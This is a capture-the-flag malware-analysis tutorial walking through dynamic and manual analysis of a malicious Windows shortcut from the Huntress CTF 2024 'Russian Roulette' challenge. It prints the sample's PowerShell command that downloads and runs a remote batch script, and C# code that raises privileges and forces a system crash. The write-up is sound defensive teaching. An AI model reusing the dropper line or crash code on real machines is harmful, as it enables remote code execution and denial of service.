# Dynamic Analysis

The process of analyzing malware by running it in a controlled environment like a sandbox.

For Dynamic analysis, we will be using the `Windows Powershell` file, which is from the Huntress CTF 2024 - `Russian Roulette` challenge. Here are the file details:

ZIP filename: `russian_roulette.zip`
Password: `russian_roulette`
Extracted filename: `Windows Powershell.lnk`
File Type: `Windows Shortcut`

## Initial setup

Unzip the malware on the Windows Dynamic Analysis VM.


To start the dynamic analysis process, first we have to start all the necessary tools as follows:

### Windows Dynamic Analysis VM

Here is a list of tools that are to be started on the Windows Dynamic Analysis VM.

#### Regshot

Regshot is used to analyze modifications in the Windows Registry. It works by taking a snapshot of the registry before and after execution of the malware and comparing the snapshots. Open Regshot and click on `1st Shot` -> `Shot` as shown in the following image. This is the snapshot before executing the malware.



#### Procmon

[Process Monitor ( Procmon )](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon) is an advanced monitoring tool for Windows that shows real-time file system, Registry and process/thread activity. Open the Process Monitor and pause the process monitor first, then clear the entries of the Process Montior as shown in the following image. Since Procmon captures all the system events, the amount of data that Procmon logs is huge. Thus we will only start Procmon while we are about to run the malware and will stop it once the malware is executed successfully for some period of time.


#### System Informer ( formerly Process Hacker )

[System Informer ( formerly Process Hacker )](https://www.systeminformer.com/) is a free, powerful, multi-purpose tool that helps you monitor system resources, debug software and detect malware. Its almost like the Task Manager for Windows but advanced with more details. Just launch the System Informer. No setup is required.


#### Desktop Setup

Keep the **File Explorer** and **System Informer** windows side by side as shown in the following image. This will be helpful to identify what processes that are spawned by the malware once executed.


### Remnux Dynamic Analysis VM

Here is a list of tools that are to be started on the Remnux Dynamic Analysis VM.

#### INetSim

[INetSim](https://www.inetsim.org/) INetSim is a software suite for simulating common internet services in a lab environment, e.g. for analyzing the network behaviour of unknown malware samples. Start INetSim by using the following command.

```bash
inetsim
```

If INetSim is successfully started, you should be able to see similar output as shown in the following image.


#### Wireshark

[Wireshark](https://www.wireshark.org/) is a network protocol analyzer. It lets you see what's happening on your network at a microscopic level. With the help of Wireshark we can montior and capture all the network requests that are made by the Windows Dynamic Analysis VM. Start Wireshark and select the ethernet interface as shown in the following image and start the capture.


## Executing the Malware

Now its time to execute the malware.

Resume Procmon as shown in the following image and minimize it and then run the malware. Let the malware to run for 30 to 60 seconds. After that stop Procmon.


Once the malware is executed, we are able to see a new `powershell.xe` process in the **System Informer** as shown in the following image.


This `powershell.exe` process is a managed process as shown in the following image, which means this process is about to execute some [managed code](https://learn.microsoft.com/en-us/dotnet/standard/managed-code). Basically **managed code** is a code which requires a backend runtime to run. **Managed code** does not directly run as assembly; instead, it is compiled into a bytecode format that the runtime processes and executes. Here, the backend runtime environment is [Common Language Runtime (CLR)](https://learn.microsoft.com/en-us/dotnet/standard/clr). Managed code is written in one of the high-level languages that can be run on top of **.NET**, such as **C#**, **Visual Basic**, **F#** and others.


Let's examine the properties of this managed process. Right click the process and then select `Properties` or double click the process to open the properties window as shown in the following image.


In the above image there are two DLLs [clr.dll](https://dll.website/clr-dll) and [clrjit.dll](https://dll.website/clrjit-dll), which are part of the **Common Language Runtime**. This makes sure that there is some managed code is about to run. This is suspicious since normally powershell won't run as a managed process. Let's proceed with further analysis to find more details.

Pause `Procmon` if the malware has ran for 30+ seconds.



Also `stop` **Wireshark** on the Remnux VM.



Now take the 2nd snapshot in **Regshot** by clicking on `2nd Shot` -> `Shot` as shown in the following image.



Once **Regshot** successfully took the 2nd snapshot, click on `compare` as shown in the image below to compare the snapshots.


Once **Regshot** has successfully analyzed the snapshots, it will provide the results as a text file opened in notepad as shown in the following image.


## Performing Analysis

Its time to analyze the output of all the tools that we initially setup. Let's start with `Regshot`.

### Analyzing Registry Changes

From the output of `Regshot`, we can see that some keys are deleted and also some keys are added as shown in the following image. None of the keys that are modified are of interest or suspicious.



Next I used the find feature to look out for activities related to `SOFTWARE\Microsoft\Windows\CurrentVersion\Run` registry folder, since malware's use this folder to maintain persistence. But no activity related to this registry.


As of our analysis with the registry, nothing is found interesting. Thus lets move on to **Procmon** logs.

### Analyzing Malware Activity

Since **Procmon** logs huge amounts of data, lets start by filtering logs. First click on the filter icon as shown in the following image.



Since we know the process name that was spawned after running the malware, we can filter logs by the process name. Select `Process Name` from the drop down menu and set it to `powershell.exe` as shown in the following image, and click on `Add`, then click `Apply` and `Ok`.


Once `Procmon` has completed filtering the logs, you can see that the number of entries displayed is drastically reduced on the left bottom corner of the application as shown in the following image.


Since we have analyzed registry related activity with **Regshot**, we can filter out logs related to registry by deselecting the registry icon as shown in the image below. After filtering registry related logs we can see that amount of logs displayed is again drastically reduced.


Let's start our analysis, first lets check the first entry, which is a `Process Start` operation. We can see that its a powershell command being executed. Hover over it with your mouse pointer to see more details about the command as shown in the following image.


We are able to see a long string passed to the powershell application as an argument, which looks like a `base64` encoded string. The encoded string shown in the above image is here as follows,

```
aQB3AHIAIABpAHMALgBnAGQALwBqAHcAcgA3AEoARAAgAC0AbwAgACQAZQBuAHYAOgBUAE0AUAAvAC4AYwBtAGQAOwAmACAAJABlAG4AdgA6AFQATQBQAC8ALgBjAG0AZAA=
```

Let's decode this `base64` encoded string with **CyberChef**. The **CyberChef** recipe is as follows:

```
https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)Remove_null_bytes()
```

**CyberChef** has successfully decoded the `base64` encoded string as shown in the following image.



The decoded string shown in the above image is as follows,

```powershell
iwr is.gd/jwr7JD -o $env:TMP/.cmd;& $env:TMP/.cmd
```

Here is a breakdown of the above powershell command,

- **`iwr`**: This stands for `Invoke-WebRequest`, a PowerShell command used to make HTTP requests.
- **`is.gd/jwr7JD`**: This is a shortened URL, most likely pointing to some remote file or script. It's important to expand this URL to see what the original source is.
- **`o $env:TMP/.cmd`**: This option saves the downloaded content to a file named `.cmd` in the system's temporary directory.
- **`& $env:TMP/.cmd`**: The `&` symbol in PowerShell is used to execute a command or script. Here, it runs the `.cmd` file that was just downloaded.

Thus the `Windows Powershell` shortcut tries to download a second stage payload and executes it. But it isn't successful because it wasn't able to fetch the actual payload since we are in a isolated VM and probably **INetSim** should have responded with its template webpage when the http request was made to resolve the shortened URL, which the powershell command might have saved as the `.cmd` file and tried to execute it, which will obviously fail.

Let's try to resolve the shortened URL and download the staged payload from the Windows Static Analysis VM, since it is connected to internet. Open a browser in the static VM and make a request to the shortened URL as shown in the following image. Also keep the network tab opened from the browser developer tools to monitor the resolved URL and other network activity.


Once the request is successfully made, a file named `powershell.zip` is getting downloaded. Let's save this file for further analysis.


First let's check what was the actual URL that the shortened URL resolved to, by clicking on the first request entry and switching to the Headers tab as shown in the following image.


From the above image, we can see that the malware was trying to download the second stage payload from a github attachment. Using **github attachments** is a common technique used my malware's to download payloads. [Living Off Trusted Sites (LOTS) Project](https://lots-project.com/) has a list of such websites that are used to share payloads and other malicious activities by malware's and malware authors to evade detection.

Let's proceed by analyzing the downloaded payload. I tried to extract the zip file, but it failed as shown in the following image. The error was that the downloaded payload is not a valid zip file.



So, I loaded the payload into **DiE** to get more information about the payload. As shown in the following image, the downloaded payload is a plain text file according to **DiE**


To further verify this, I opened the downloaded `powershell.zip` file in `HxD Hex Editor`. In the first line of the decoded text, I was able to see `@echo of` keyword, which is a batch script command as shown in the following image.


Remember the powershell command that we got from the `base64` encoded sting initially, it was as trying to rename the downloaded payload to `.cmd`, which is a type of batch script extension. With all of these in mind, I came to a conclusion that the downloaded file is a batch script and renamed the file extension to `.cmd` as shown in the following image.


And I tried to open this file in **VScode**. I wasn't able to see the batch script line that we were able to see from the Hex Editor. The output that is showing to us as shown in the following image is some other language.


Let's find out why this is happening. First jump to Hex Editor and let's manually verify the file type of this file by searching for the first few bytes in the [List of File Signatures](https://en.wikipedia.org/wiki/List_of_file_signatures). The first few bytes that I looked out for is `FF FE 26 63`. As you can see from the following image that I was able find the first two bytes, which is type of text file which contains [UTF-16 LE](https://en.wikipedia.org/wiki/UTF-16#UTF-16LE) characters ( the characters that we saw when we opened the file in **VScode** )


Thus these bytes are the reason that makes **VScode** to interpret the characters in the file as `UTF-16 LE` characters. Let's delete these bytes. I deleted all the bytes from the start of the file until the string `@echo of` starts as shown in the following image.


Once you have deleted the bytes, click on save as shown in the following image.


Now open the file in `VScode` and rename the extension to `.bat` or `.cmd` to get syntax highlighting in VScode, in case you haven't done it yet.



Once you got the syntax highlighted, you can probably see a lot of lines highlighted in green color as shown in the following image. In batch script lines starting with `::` or `rem` are considered as comments. These unwanted commented lines that contain some Russian characters are added for obfuscation and to confuse and evade detection mechanisms. Let's remove all of these commented out lines.


Once you have removed all the comments, you should be able to see the batch script as shown in the following image. The batch script is heavily obfuscated. Let's manually deobfuscate the batch script


In batch scripting `set` keyword is used to create a new variable. In the above image `ucbw` is set to `set` keyword. Also a variable can be referenced in another command using the syntax `%variable%`. Which means all the instances of `%ucbw%` is replaced with the keyword `set`. Now lets replace all the instances of `%ucbw%` with `set` in the batch script.



We have replaced all the instances of `%ucbw%` with `set` in the batch script as shown in the above image. Similarly lets replace `%qmy%` with ` ` since `qmy` is set to ` ` in line 3.


Now we have replaced all instances of `%qmy%` with ` ` as shown in the above image. Next lets replace `%jxaa%` with `=`.


After replacing all instances of `%jxaa%` with `=` as shown in the above image, we got some variables. Let's replace all of these variables with their values.



After replacing all of those variables with their values as shown in the above image, we can see some new `set` commands and some `cmd` commands. Let's try to understand the first three lines of the new commands. The first three lines are as follows:

```batch
set /a rtoy=9161456 %% 9161359
cmd /c exit %rtoy%
set ztq=%=exitcodeAscii%
```

- The `set /a` is a batch script command used to perform arithmetic operations. `%%` represents the modulo operator, which calculates the remainder of a division. Thus `set /a rtoy=9161456 %% 9161359` command sets the variable `rtoy` with the value of `97`.

- The command `cmd` runs a new instance of the command prompt (cmd) and executes the specified command. After executing the command, the new cmd instance closes automatically. The `exit %rtoy%` command tells the new cmd instance to terminate and return an exit code equal to the value of `%rtoy%`. Thus the line `cmd /c exit %rtoy%` returns `97`.

- `%=exitcodeAscii%` is a special syntax in batch scripting. It takes the exit code of the last command (stored in `%ERRORLEVEL%`) and converts it to its corresponding ASCII character. In this case the `%ERRORLEVEL%` is `97`, `%=exitcodeAscii%` evaluates to the ASCII character `a` (since `97` is the ASCII code for `a`). Thus the third line results to `set ztq=a`.

Likewise let's deobfuscate all the remaining sets of lines and replace them with the third line of each set. I started by extracting all the calculations that are to be to separate file as shown in the following image.


Next I pasted all of the extracted calculations in powershell ( Remember to replace `%%` with a single `%` ) to get the results of these calculations as shown in the following image and press `Enter`.


As shown in the following image powershell should output the results of all the calculations.


The next step I did was to copy all of the results in the same order and paste it in **CyberChef** and used the following recipe to convert these decimal values to its equivalent ASCII characters.

```
https://gchq.github.io/CyberChef/#recipe=From_Decimal('CRLF',false)Split('','%5C%5Cn')
```

**CyberChef** has successfully converted all the decimal values to ASCII characters as shown in the following image.


Now replace all the calculations in the batch script with its equivalent results as shown in the following image.



Now again replace all instances of the new variables with their values.


In a batch script, rem is used to add a comment. Everything after rem on the same line is ignored by the script during execution.
So remove all the lines starting with the command `rem` or with `::`.



```
https://gchq.github.io/CyberChef/#recipe=Find_/_Replace(%7B'option':'Regex','string':'%5C%5C%5E'%7D,'',true,false,true,false)From_Base64('A-Za-z0-9%2B/%3D',true,false)Remove_null_bytes()
```



Here is the code in the above image.

```
$s='using System;using System.Text;using System.Security.Cryptography;using System.Runtime.InteropServices;using System.IO;public class X{[DllImport("ntdll.dll")]public static extern uint RtlAdjustPrivilege(int p,bool e,bool c,out bool o);[DllImport("ntdll.dll")]public static extern uint NtRaiseHardError(uint e,uint n,uint u,IntPtr p,uint v,out uint r);public static unsafe string Shot(){bool o;uint r;RtlAdjustPrivilege(19,true,false,out o);NtRaiseHardError(0xc0000022,0,0,IntPtr.Zero,6,out r);byte[]c=Convert.FromBase64String("RNo8TZ56Rv+EyZW73NocFOIiNFfL45tXw24UogGdHkswea/WhnNhCNwjQn1aWjfw");byte[]k=Convert.FromBase64String("/a1Y+fspq/NwlcPwpaT3irY2hcEytktuH7LsY+NlLew=");byte[]i=Convert.FromBase64String("9sXGmK4q9LdYFdOp4TSsQw==");using(Aes a=Aes.Create()){a.Key=k;a.IV=i;ICryptoTransform d=a.CreateDecryptor(a.Key,a.IV);using(var m=new MemoryStream(c))using(var y=new CryptoStream(m,d,CryptoStreamMode.Read))using(var s=new StreamReader(y)){return s.ReadToEnd();}}}}';$c=New-Object System.CodeDom.Compiler.CompilerParameters;$c.CompilerOptions='/unsafe';$a=Add-Type -TypeDefinition $s -Language CSharp -PassThru -CompilerParameters $c;if((Get-Random -Min 1 -Max 7) -eq 1){[X]::Shot()}Start-Process "powershell.exe"
```

Let's remove stuff related to powershell from the above code. You would get the following code, which is a [C#](<https://en.wikipedia.org/wiki/C_Sharp_(programming_language)>) code. Remember that **System Informer** showed that the `powershell.exe` process that was spawned by the shortcut is a **managed process** and we identified that there is going to be some **managed code** is to be run by that powershell process, we have finally found the managed code that was to be executed.

```csharp
using System;using System.Text;using System.Security.Cryptography;using System.Runtime.InteropServices;using System.IO;public class X{[DllImport("ntdll.dll")]public static extern uint RtlAdjustPrivilege(int p,bool e,bool c,out bool o);[DllImport("ntdll.dll")]public static extern uint NtRaiseHardError(uint e,uint n,uint u,IntPtr p,uint v,out uint r);public static unsafe string Shot(){bool o;uint r;RtlAdjustPrivilege(19,true,false,out o);NtRaiseHardError(0xc0000022,0,0,IntPtr.Zero,6,out r);byte[]c=Convert.FromBase64String("RNo8TZ56Rv+EyZW73NocFOIiNFfL45tXw24UogGdHkswea/WhnNhCNwjQn1aWjfw");byte[]k=Convert.FromBase64String("/a1Y+fspq/NwlcPwpaT3irY2hcEytktuH7LsY+NlLew=");byte[]i=Convert.FromBase64String("9sXGmK4q9LdYFdOp4TSsQw==");using(Aes a=Aes.Create()){a.Key=k;a.IV=i;ICryptoTransform d=a.CreateDecryptor(a.Key,a.IV);using(var m=new MemoryStream(c))using(var y=new CryptoStream(m,d,CryptoStreamMode.Read))using(var s=new StreamReader(y)){return s.ReadToEnd();}}}}
```

Let's beautify the above code using hte `Generic Code Beautify` recipe in **CyberChef** as shown in the following image.


Here is the beautified code,

```csharp
using System;
using System.Text;
using System.Security.Cryptography;
using System.Runtime.InteropServices;
using System.IO;
public class X {
    [DllImport("ntdll.dll")]public static extern uint RtlAdjustPrivilege(int p, bool e, bool c, out bool o);
    [DllImport("ntdll.dll")]public static extern uint NtRaiseHardError(uint e, uint n, uint u, IntPtr p, uint v, out uint r);
    public static unsafe string Shot() {
        bool o;
        uint r;
        RtlAdjustPrivilege(19, true, false, out o);
        NtRaiseHardError(0xc0000022, 0, 0, IntPtr.Zero, 6, out r);
        byte[]c = Convert.FromBase64String("RNo8TZ56Rv+EyZW73NocFOIiNFfL45tXw24UogGdHkswea/WhnNhCNwjQn1aWjfw");
        byte[]k = Convert.FromBase64String("/a1Y+fspq/NwlcPwpaT3irY2hcEytktuH7LsY+NlLew=");
        byte[]i = Convert.FromBase64String("9sXGmK4q9LdYFdOp4TSsQw==");
        using(Aes a = Aes.Create()) {
            a.Key = k;
            a.IV = i;
            ICryptoTransform d = a.CreateDecryptor(a.Key, a.IV);
            using(var m = new MemoryStream(c))using(var y = new CryptoStream(m, d, CryptoStreamMode.Read))using(var s = new StreamReader(y)) {
                return s.ReadToEnd();
            }

        }

    }

}
```

And here is the simplified breakdown of the above code generated by ChatGPT:

- **Enables Special Privileges**:

  - The program uses RtlAdjustPrivilege to enable a special system privilege (likely for shutting down or crashing the system).

- **Forces a System Error**:

  - It calls NtRaiseHardError to trigger a critical system error (0xc0000022, meaning "Access Denied"). This may cause a crash (e.g., a blue screen of death) depending on system settings.

- **Decrypts Encrypted Data**:

  - It takes Base64-encoded strings: a ciphertext, a key, and an initialization vector (IV).
  - It uses AES (a strong encryption algorithm) to decrypt the ciphertext with the provided key and IV.
  - The decrypted result is returned as a string.

- **Potential Harm**:

  - The code appears to have malicious intent since it both tries to crash the system and processes hidden encrypted data.
  - The decrypted payload could be instructions or additional malicious code.

I also made ChatGPT to generate `C#` code to decrypt the cipher text. The code is as follows,

```csharp
using System;
using System.IO;
using System.Security.Cryptography;
using System.Text;

public class AESDecryptor
{
    public static string Decrypt()
    {
        // Base64-encoded encrypted data, key, and IV
        string encryptedDataBase64 = "RNo8TZ56Rv+EyZW73NocFOIiNFfL45tXw24UogGdHkswea/WhnNhCNwjQn1aWjfw";
        string keyBase64 = "/a1Y+fspq/NwlcPwpaT3irY2hcEytktuH7LsY+NlLew=";
        string ivBase64 = "9sXGmK4q9LdYFdOp4TSsQw==";

        // Convert from Base64 strings to byte arrays
        byte[] encryptedData = Convert.FromBase64String(encryptedDataBase64);
        byte[] key = Convert.FromBase64String(keyBase64);
        byte[] iv = Convert.FromBase64String(ivBase64);

        using (Aes aes = Aes.Create())
        {
            aes.Key = key;
            aes.IV = iv;

            // Create a decryptor to perform the stream transform
            ICryptoTransform decryptor = aes.CreateDecryptor(aes.Key, aes.IV);

            using (var memoryStream = new MemoryStream(encryptedData))
            using (var cryptoStream = new CryptoStream(memoryStream, decryptor, CryptoStreamMode.Read))
            using (var streamReader = new StreamReader(cryptoStream))
            {
                // Read the decrypted bytes and return as a string
                return streamReader.ReadToEnd();
            }
        }
    }

    public static void Main()
    {
        string decryptedText = Decrypt();
        Console.WriteLine("Decrypted text: ");
        Console.WriteLine(decryptedText);
    }
}
```

I executed the above code in a [Online Compiler](https://www.programiz.com/csharp-programming/online-compiler/) and got the flag as shown in the following image.


### Analyzing DNS Requests

Now let's the **Wireshark** capture to find out whether there is any network activity was made by the malware. First I filtered for DNS requests by using the `dns` keyword as shown in the following image. Also I used the `Apply as Column` feature to show all the DNS query details in the table to easily find the unique domain requests made by the Windows Static Analysis VM. 


But nothing interesting found.

### Analyzing HTTP Requests

Next I filter for HTTP requests using the `http` keyword as shown in the following image.



You can see that there was a request to `is.gd/jwr7JD` URL that was made by the malware. No other requests was found.

## Dynamic Analysis Using Automated Sandboxes

Using automated sandboxes saves some time and flexibility. One such sandbox is [any.run](https://any.run/). You need to create a free account to use `any.run`. Once you have created the account you will see the dashboard as shown in the following image.

> You can find other available sandboxes in this [post](https://su13ym4n.medium.com/15-online-sandboxes-for-malware-analysis-f8885ecb8a35).


### Automated Analysis for `calc.exe` sample

[Link to my any.run submission](https://app.any.run/tasks/5bbca480-2c69-40b3-bf5d-be634cbc9427)

To start analysis click on `Submit File/Email` or `New Analysis` on the sidebar and upload the binary, choose the operating system and click on `Run a public analysis` as shown in the following image.


Click on `Agree` on the dialog box.


In the free verision, the instance will run for 60 seconds. While running you can see the HTTP requests made by the binary as shown in the following image.


Once the analysis is completed, click on the `IOC` button to check the summary of indicators of compromises as shown in the following image.



**Any.run** also generates a text report of all the activity of the malware. Click on the `Text report` as shown in the following image.


**Any.run** will open the text report in a new page as shown in the image below. In this report you can find detailed insights about the activity of the malware.



You can view others public submissions on `any.run` [here](https://app.any.run/submissions).



### Automated Analysis for `Windows Powershell.lnk` shortcut sample

[Link to my any.run submission](https://app.any.run/tasks/28f3d1d1-2dc1-44d0-afed-80c5a68669a3)

> Note:
> Upload this malware sample to `any.run` from a linux host. Since the given file is a Windows Shortcut file, when you upload this file to `any.run` from a Windows Host, Windows will resolve the shortcut and you will end up uploading the legitimate Windows `powershell.exe` file. Thus its ideal to upload it from a Linux host to upload the given sample `Windows Powershell.lnk` file.

Again start by creating a new submission by clicking on `Submit File/Email` or `New Analysis` on the sidebar and upload the binary, choose the operating system and click on `Run a public analysis` as shown in the following image.


Once the malware is executed, you can see the malicious shortcut executing the powershell code with the base64 encoded string, that contains the link to the staged payload as shown in the following image.


One advantage of using `any.run` or any other sandbox is they are connected to the internet. This simulates a more real environment, thus the malware has access to the actual staged payload. You can see that the request made by the malware to the shortened URL as shown in the following image and also the staged batch script has been running successfully as you can see all the exit commands made by the script to generate the ASCII characters, that we did while manually deobfuscating batch script.



Hence, `any.run` also logs the second powershell command that was executed by the batch script which has a large `base64` encoded string, from which we got the `C#` code as shown in the following image. This really makes it easier and helps us to skip the part of manually deobfuscating the batch script.

